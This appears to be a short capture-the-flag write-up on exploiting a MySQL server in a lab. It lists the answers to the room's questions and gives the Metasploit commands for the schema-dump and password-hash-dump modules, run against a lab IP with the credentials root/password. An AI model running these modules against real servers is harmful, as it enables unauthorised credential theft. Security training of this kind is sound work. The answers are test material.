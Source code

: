 **3. What result does the "select version()" command give you?**  
`5.7.29-0ubuntu0.18.04.1`

---

**4. How many databases are returned?**  
**4** databases:

- `information_schema`
- `mysql`
- `performance_schema`
- `sys`



### Exploiting MySQL: Summary

#### What do we know?

- **MySQL Server Credentials**: We have the login details to authenticate.
- **MySQL Version**: Helps determine exploitable vulnerabilities.
- **Databases and Their Names**: We know which databases exist, assisting in targeting specific ones.

#### Key Terminology

- **==Schema==**: Synonymous with a database in MySQL. For example, `CREATE SCHEMA` instead of `CREATE DATABASE`.
- **==Hashes==**: Used to store passwords securely. We extract password hashes to attempt cracking.

---

### Q & A

1. **Module for schema dump**:
   - Full name: `auxiliary/scanner/mysql/mysql_schemadump`
   - Command:  
     ```bash
     search mysql_schemadump
     use 0
     set rhosts 10.10.132.143
     set username root
     set password password
     run
     ```

2. **Last table dumped**:  
   - `x$waits_global_by_latency`

3. **Module for hash dump**:
   - Full name: `auxiliary/scanner/mysql/mysql_hashdump`
   - Command:  
     ```bash
     search mysql_hashdump
     use 0
     run
     ```

